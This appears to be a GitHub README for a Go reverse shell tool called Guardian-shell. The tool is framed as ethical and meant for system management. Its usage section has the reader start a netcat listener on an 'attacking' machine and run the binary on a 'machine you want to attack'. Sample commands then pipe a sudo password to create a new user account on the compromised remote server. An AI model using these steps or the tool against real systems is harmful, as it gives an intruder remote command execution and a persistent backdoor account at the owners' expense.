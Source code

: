 ## what is it ?

Guardian-shell is a  secure reverse shell tool written in Go. Designed with a focus on responsible use and ethical practices, it facilitates secure communication between authorized parties. Guardian-shell empowers you with the ability to remotely execute commands on target machines, for easy system management, monitoring and penetration testing. 

## usage

step 1 : from your (attacking) machine run `nc -lvp 20090`

step 2 : run guardian_shell on the machine you want to attack. 
copy from this repo and paste it on the machine you want to attack and run it `./guardian-shell`
on success, it will give you response `Connected to the reverse guardian listern!` or ti will wait for listner.

## sample commands

to add new user in remote linux server
```
echo ur_sudo_password | sudo -S useradd testuser; echo new_password_123 | passwd testuser
```

to delete user from remote linux server
```
echo ur_sudo_password | sudo -S userdel testuser
```

## on attack machine 
![image](https://github.com/avvvet/guardian-shell/assets/25494022/23a2039c-0d53-4fa9-9551-0e0bf3eed47a)

## on the remote machine to be attacked
![image](https://github.com/avvvet/guardian-shell/assets/25494022/bcc2d45a-f4ec-49ad-9def-8c46bad02074)
